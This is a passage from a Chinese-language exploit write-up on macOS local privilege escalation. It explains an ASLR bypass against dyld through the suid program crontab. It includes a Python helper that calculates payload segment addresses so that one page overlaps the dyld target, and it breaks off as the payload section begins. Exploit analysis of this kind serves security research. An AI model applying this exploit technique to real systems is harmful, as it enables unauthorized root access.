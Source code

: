     
    
    #!c
    def maximum_vmaddr(segment_size):
        '''    returns the maximum vmaddr        the function assumes the base binary is 9 pages long    as is the case for crontab giving a     loadAddress_min of 0x100009000        if attacking other suid programs, this value should    be adjusted. in reality a few pages here or there    won't have a noticeable effect.    '''
        dyld_target = 0x7fff5fc26000
        loadAddress_min = 0x100009000 
        aslr_slide_max = 0x0ffff000    
    
        dyld_target_max = dyld_target + aslr_slide_max
        maximum_offset = dyld_target_max - loadAddress_min    
    
        # Only one page from the payload needs to hit the maximum offset.
        vmaddr = maximum_offset - segment_size + 0x1000      
    
        return vmaddr
    

唯一的不同之处在于下面的代码：

    
    
    #!c
    # Only one page from the payload needs to hit the maximum offset.
        vmaddr = maximum_offset - segment_size + 0x1000
    

原始的vmaddr最大值计算假设我们是加载到单个页中。我们实际上是每次加载4096个页。

调整计算方法来适应只加载一页在最大vmaddr。不然我们就会浪费那些永远不会覆盖dyld_target的页。

下面的图可能能说明这个概念：

![](http://static.wooyun.org//drops/20151111/201511111158581827795.png)

左侧的图是显示的原始的最大vmaddr（0x7ffe6fc1c000）覆盖可能的最高的dyld_target。其他的所有页都是多余的，因为我们已经在可能的最大vmaddr值和dyld_target最高地址。这个segment中只有一页可能覆盖到dyld_target。

右侧的图是调整后的vmaddr（0x7ffe6ec1d000）。这个segment段将覆盖到可能的最高dyld_target。所有的4096segment页可以覆盖所有的可能dyld_target页。

# 0x08 载荷Payload

* * *

在绕过ASLR那一节中，我们实现了一定了覆盖dyld_target。payload有0x1000000大，即4096个页。其中的一个页将覆盖到dyld_target页。

dyld的mmap系统调用显示如下：

    
    